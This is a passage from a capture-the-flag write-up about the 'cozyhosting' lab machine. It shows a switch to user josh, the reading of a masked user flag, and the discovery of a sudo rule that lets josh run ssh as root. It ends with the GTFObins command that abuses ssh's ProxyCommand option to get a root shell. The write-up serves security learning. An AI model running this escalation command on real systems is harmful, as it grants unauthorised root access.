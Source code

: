 Nice we got the password and we can SU to the Josh user successfully now with that password. We can also grab the first flag.

```bash
app@cozyhosting:/app$ su josh
Password: 
josh@cozyhosting:/app$ id
uid=1003(josh) gid=1003(josh) groups=1003(josh)
josh@cozyhosting:/app$ cd
josh@cozyhosting:~$ ls -alh
total 40K
drwxr-x--- 4 josh josh 4.0K Oct  6 00:46 .
drwxr-xr-x 3 root root 4.0K May 18 15:03 ..
lrwxrwxrwx 1 root root    9 May 11 19:34 .bash_history -> /dev/null
-rw-r--r-- 1 josh josh  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 josh josh 3.7K Jan  6  2022 .bashrc
drwx------ 2 josh josh 4.0K May 18 14:47 .cache
-rw------- 1 josh josh   20 May 18 22:14 .lesshst
-rw-r--r-- 1 josh josh  807 Jan  6  2022 .profile
lrwxrwxrwx 1 root root    9 May 21 13:10 .psql_history -> /dev/null
drwx------ 2 josh josh 4.0K Oct  6 00:46 .ssh
-rw-r----- 1 root josh   33 Oct  3 17:35 user.txt
-rw-r--r-- 1 josh josh   39 Aug  8 10:19 .vimrc
josh@cozyhosting:~$ cat user.txt 
b57a0f7fe23....................
```

## Privlege Escalation to Root

Once on the box I loaded up both Pspy64 and linpeas, did not see anything of interest there. The next thing I did was run __sudo -l__, using the password I got for the user Josh. It luckily worked and I saw the following:

```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

This is definitely odd, this means that the Josh user has unrestricted privleges to run ssh as root and can specify any argument. Most likely our attack vector. When it comes to doing privlege escalation on linux binaries, I always like to check out [GTFObins](https://gtfobins.github.io/) to see if there is a solution. Interestingly enough, GTFObins has an exploit we can use in a situation such as ours.

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```
